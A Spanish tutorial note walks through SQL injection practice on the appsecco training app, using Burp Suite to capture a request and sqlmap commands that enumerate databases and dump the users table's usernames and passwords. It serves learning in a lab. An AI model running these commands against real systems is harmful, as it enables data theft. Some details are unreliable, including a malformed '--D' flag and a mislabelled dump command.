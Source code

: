 Las explotaciones manuales son aquellas realizadas a través de las capacidades manuales del atacante y que no derivan del uso de un script. Para practicar, existe el siguiente repositorio de GitHub que contiene ejercicios de inyección SQL:

[https://github.com/appsecco/sqlinjection-training-app](https://github.com/appsecco/sqlinjection-training-app)

Para acceder, el usuario y la contraseña son `admin` y `admin`. Se puede comprobar la vulnerabilidad ingresando una comilla (`'`) en la búsqueda de productos, lo cual puede romper la consulta y permitir la concatenación de otros comandos de inyección SQL.

Este caso se inicializa con la herramienta [[sqlmap]].

Después, se inicializa la aplicación [[Burp Suite]] de la siguiente manera para que quede en segundo plano.

```bash
burpsuite &> /dev/null & disown
```

Posteriormente, activas el proxy en el navegador y realizas una búsqueda para luego recepcionarla con Burp Suite. Una vez hecho esto, seleccionas la opción "Copy to file" y guardas la solicitud en un archivo con extensión `.req`.

Luego, usando la herramienta [[sqlmap]], puedes buscar bases de datos relacionadas con el término que elijas dentro del archivo `.req` con el siguiente comando:

```bash 
sqlmap -r archivo.req -p searchitem --batch
```

Y posteriormente, para que te dumpee las bases de datos existentes, lo haces con el siguiente comando:

```bash 
sqlmap -r archivo.req -p searchitem --batch --dbs
```

Con el siguiente comando, puedes ver los valores de las bases de datos, sus tablas, columnas, etc.

```bash 
sqlmap -r archivo.req -p searchitem --batch --D basededatos -T tabla -C columna --dump 
```

Por ejemplo, así puedes bajar el repositorio de GitHub:

```bash 
sqlmap -r burpsuite.req -p searchitem --batch -D sqlitraining -T users -C username,password,id --dump
```
